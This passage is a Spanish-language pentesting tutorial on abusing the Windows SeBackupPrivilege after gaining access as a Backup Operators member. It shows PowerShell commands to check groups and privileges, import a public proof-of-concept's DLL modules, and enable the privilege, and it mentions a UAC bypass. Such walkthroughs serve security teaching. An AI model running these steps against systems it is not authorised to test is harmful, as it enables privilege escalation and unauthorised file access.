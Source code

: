 `Nota`: [SeBackupPrivilege doc](https://learn.microsoft.com/es-es/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/back-up-files-and-directories)

### Limitaciones y matices

* No siempre basta el `copy`/`type`/`cat`; es necesario usar APIs/flags que respeten *backup semantics*, por ejemplo [`FILE_FLAG_BACKUP_SEMANTICS`](https://learn.microsoft.com/es-es/windows/win32/api/fileapi/nf-fileapi-createfilea).
* Si existe una entrada explícita *Deny* en la ACL para el usuario/grupo, esta prevalecerá y bloqueará el acceso aun con el privilegio de backup.
* En algunos servidores puede ser necesario un **símbolo del sistema elevado** (bypass UAC) para activar/usar el privilegio.

---

Tras acceder a una máquina, podemos mostrar nuestra pertenencia actual a los grupos usando el comando:
```powershell
whoami /groups
```

En el siguiente ejemplo examinaremos el caso que pertenecemos al grupo `Backup Operators`.

## Herramientas y PoC: activar y explotar SeBackupPrivilege

[PoC](https://github.com/giuliano108/SeBackupPrivilege)

### Importar módulos PowerShell

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

### Verificar privilegios

```powershell
whoami /priv
# o usando el cmdlet
Get-SeBackupPrivilege
```

Salida:

```
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege           Restore files and directories  Disabled
SeChangeNotifyPrivilege      Bypass traverse checking       Enabled
```

### Habilitar SeBackupPrivilege

```powershell
Set-SeBackupPrivilege
Get-SeBackupPrivilege
SeBackupPrivilege is enabled
```
